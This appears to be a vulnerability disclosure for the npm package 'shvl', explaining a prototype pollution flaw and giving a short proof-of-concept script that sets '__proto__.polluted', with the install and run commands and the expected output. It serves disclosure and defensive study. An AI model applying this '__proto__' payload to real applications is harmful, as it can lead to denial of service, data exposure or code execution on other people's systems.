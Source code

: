 # Description

`shvl` get and set  the dot-notated properties within an object.
This package is vulnerable to `Prototype Pollution`.
This package fails to restrict access to prototypes of objects, allowing for modification of prototype behavior using a `proto` payload, which may result in Sensitive Information Disclosure/Denial of Service(DoS)/Remote Code Execution.


# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var shvl = require("shvl")
let obj = {}
console.log("After : " + {}.polluted);
shvl.set(obj, '__proto__.polluted', 'Yes! Its Polluted');
console.log("After : " + {}.polluted);

```
2. Execute the following commands in another terminal:

```
npm i shvl # Install affected module
node poc.js #  Run the PoC
```
3. Check the Output:
```
After : undefined
After : Yes! Its Polluted
```
